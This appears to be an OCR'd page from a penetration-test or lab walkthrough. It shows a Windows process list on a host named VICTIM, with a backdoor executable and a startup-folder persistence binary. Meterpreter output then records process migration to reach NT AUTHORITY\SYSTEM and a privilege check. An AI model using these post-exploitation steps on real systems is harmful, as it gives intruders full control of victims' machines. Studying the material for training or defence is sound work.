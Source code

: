 ```
 912   680   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 940   680   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 960   680   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1124  680   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1152  680   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1180  680   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1244  680   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
 1264  680   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1328  680   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1384  680   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1628  2224  conhost.exe           x64   1        VICTIM\admin                  C:\Windows\System32\conhost.exe
 1684  748   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 1892  2368  conhost.exe           x64   1        VICTIM\admin                  C:\Windows\System32\conhost.exe
 2148  1276  backdoor.exe          x86   1        VICTIM\admin                  C:\Temp\backdoor.exe
 2224  2628  cmd.exe               x86   1        VICTIM\admin                  C:\Windows\SysWOW64\cmd.exe
 2240  2808  hfs.exe               x86   1        VICTIM\admin                  C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\hfs.exe
 2320  748   WmiPrvSE.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wbem\WmiPrvSE.exe
 2368  2808  cmd.exe               x64   1        VICTIM\admin                  C:\Windows\System32\cmd.exe
 2748  912   taskhostex.exe        x64   1        VICTIM\admin                  C:\Windows\System32\taskhostex.exe
 2808  2800  explorer.exe          x64   1        VICTIM\admin                  C:\Windows\explorer.exe
 2824  680   msdtc.exe             x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\msdtc.exe

```

```
meterpreter > migrate 688
[*] Migrating from 2148 to 688...
[*] Migration completed successfully.
meterpreter > sysinfo
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

```